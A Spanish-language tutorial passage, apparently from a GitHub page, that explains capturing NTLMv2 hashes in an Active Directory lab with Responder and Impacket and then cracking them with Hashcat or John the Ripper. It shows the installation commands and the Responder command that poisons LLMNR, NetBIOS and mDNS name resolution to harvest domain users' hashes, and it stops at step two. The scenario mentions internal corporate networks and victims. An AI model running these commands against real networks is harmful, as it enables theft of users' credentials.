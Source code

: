 
### 🎯 ¿Qué necesitas?

- Un entorno con máquinas Windows unidas a un dominio AD.
- Herramientas como:

  - `Responder`
  - `Inveigh`
  - `Impacket`
  - `Hashcat` o `John the Ripper` para crackear

---

### ⚙️ Instalación de herramientas

### 🔧 1. Instalar **Responder** en Kali Linux:

```bash
sudo apt update
sudo apt install responder
```

#### 🔧 2. Instalar **Impacket** (por si usas `ntlmrelayx.py`)

```bash
sudo apt install impacket-scripts
```

---

### 🧪 Ejemplo completo: NTLM Roasting en laboratorio

#### 🔐 Escenario:

- Tienes acceso a la misma red que las víctimas (por ejemplo, estás en una red corporativa interna).
- Tu Kali Linux está en la misma red que un Windows unido al dominio.
- Objetivo: capturar un hash NTLMv2 y crackearlo.

---

#### 🛰️ Paso 1: Ejecutar Responder

```bash
sudo responder -I eth0
```

> `eth0` es tu interfaz de red (verifícalo con `ip a`)

Responder se encargará de **responder a solicitudes de nombres como LLMNR, NetBIOS o mDNS** y capturar hashes NTLMv2.

---

#### 💡 Paso 2: Esperar que alguien acceda a un recurso (SMB)
